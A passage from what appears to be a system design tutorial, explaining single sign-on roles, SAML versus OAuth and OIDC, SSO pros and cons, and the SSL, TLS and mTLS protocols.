The identity provider can directly authenticate the user by validating a username and password or by validating an assertion about the user's identity as presented by a separate identity provider. The identity provider handles the management of user identities in order to free the service provider from this responsibility.

#### Service Provider

A service provider provides services to the end-user. They rely on identity providers to assert the identity of a user, and typically certain attributes about the user are managed by the identity provider. Service providers may also maintain a local account for the user along with attributes that are unique to their service.

#### Identity Broker

An identity broker acts as an intermediary that connects multiple service providers with various different identity providers. Using Identity Broker, we can perform single sign-on over any application without the hassle of the protocol it follows.

### SAML

Security Assertion Markup Language is an open standard that allows clients to share security information about identity, authentication, and permission across different systems. SAML is implemented with the Extensible Markup Language (XML) standard for sharing data.

SAML specifically enables identity federation, making it possible for identity providers (IdPs) to seamlessly and securely pass authenticated identities and their attributes to service providers.

### How does SSO work?

Now, let's discuss how Single Sign-On works:

   

1. The user requests a resource from their desired application.
2. The application redirects the user to the Identity Provider (IdP) for authentication.
3. The user signs in with their credentials (usually, username and password).
4. Identity Provider (IdP) sends a Single Sign-On response back to the client application.
5. The application grants access to the user.

### SAML vs OAuth 2.0 and OpenID Connect (OIDC)

There are many differences between SAML, OAuth, and OIDC. SAML uses XML to pass messages, while OAuth and OIDC use JSON. OAuth provides a simpler experience, while SAML is geared towards enterprise security.

OAuth and OIDC use RESTful communication extensively, which is why mobile, and modern web applications find OAuth and OIDC a better experience for the user. SAML, on the other hand, drops a session cookie in a browser that allows a user to access certain web pages. This is great for short-lived workloads.

OIDC is developer-friendly and simpler to implement, which broadens the use cases for which it might be implemented. It can be implemented from scratch pretty fast, via freely available libraries in all common programming languages. SAML can be complex to install and maintain, which only enterprise-size companies can handle well.

OpenID Connect is essentially a layer on top of the OAuth framework. Therefore, it can offer a built-in layer of permission that asks a user to agree to what the service provider might access. Although SAML is also capable of allowing consent flow, it achieves this by hard-coding carried out by a developer and not as part of its protocol.

_Both of these authentication protocols are good at what they do. As always, a lot depends on our specific use cases and target audience._

### Advantages

Following are the benefits of using Single Sign-On:

- Ease of use as users only need to remember one set of credentials.
- Ease of access without having to go through a lengthy authorization process.
- Enforced security and compliance to protect sensitive data.
- Simplifying the management with reduced IT support cost and admin time.

### Disadvantages

Here are some disadvantages of Single Sign-On:

- Single Password Vulnerability, if the main SSO password gets compromised, all the supported applications get compromised.
- The authentication process using Single Sign-On is slower than traditional authentication as every application has to request the SSO provider for verification.

### Examples

These are some commonly used Identity Providers (IdP):

- [Okta](https://www.okta.com)
- [Google](https://cloud.google.com/architecture/identity/single-sign-on)
- [Auth0](https://auth0.com)
- [OneLogin](https://www.onelogin.com)

## SSL, TLS, mTLS

Let's briefly discuss some important communication security protocols such as SSL, TLS, and mTLS. I would say that from a _"big picture"_ system design perspective, this topic is not very important but still good to know about.

### SSL

SSL stands for Secure Sockets Layer, and it refers to a protocol for encrypting and securing communications that take place on the internet. It was first developed in 1995 but since has been deprecated in favor of TLS (Transport Layer Security).

#### Why is it called an SSL certificate if it is deprecated?

Most major certificate providers still refer to certificates as SSL certificates, which is why the naming convention persists.

#### Why was SSL so important?

Originally, data on the web was transmitted in plaintext that anyone could read if they intercepted the message. SSL was created to correct this problem and protect user privacy. By encrypting any data that goes between the user and a web server, SSL also stops certain kinds of cyber attacks by preventing attackers from tampering with data in transit.

### TLS

Transport Layer Security, or TLS, is a widely adopted security protocol designed to facilitate privacy and data security for communications over the internet. TLS evolved from a previous encryption protocol called Secure Sockets Layer (SSL). A primary use case of TLS is encrypting the communication between web applications and servers.

There are three main components to what the TLS protocol accomplishes:

- **Encryption**: hides the data being transferred from third parties.
- **Authentication**: ensures that the parties exchanging information are who they claim to be.
- **Integrity**: verifies that the data has not been forged or tampered with.

### mTLS

Mutual TLS, or mTLS, is a method for mutual authentication. mTLS ensures that the parties at each end of a network connection are who they claim to be by verifying that they both have the correct private key. The information within their respective TLS certificates provides additional verification.

#### Why use mTLS?

mTLS helps ensure that the traffic is secure and trusted in both directions between a client and server. This provides an additional layer of security for users who log in to an organization's network or applications. It also verifies connections with client devices that do not follow a login process, such as Internet of Things (IoT) devices.

Nowadays, mTLS is commonly used by microservices or distributed systems in a [zero trust security model](https://en.wikipedia.org/wiki/Zero_trust_security_model) to verify each other.


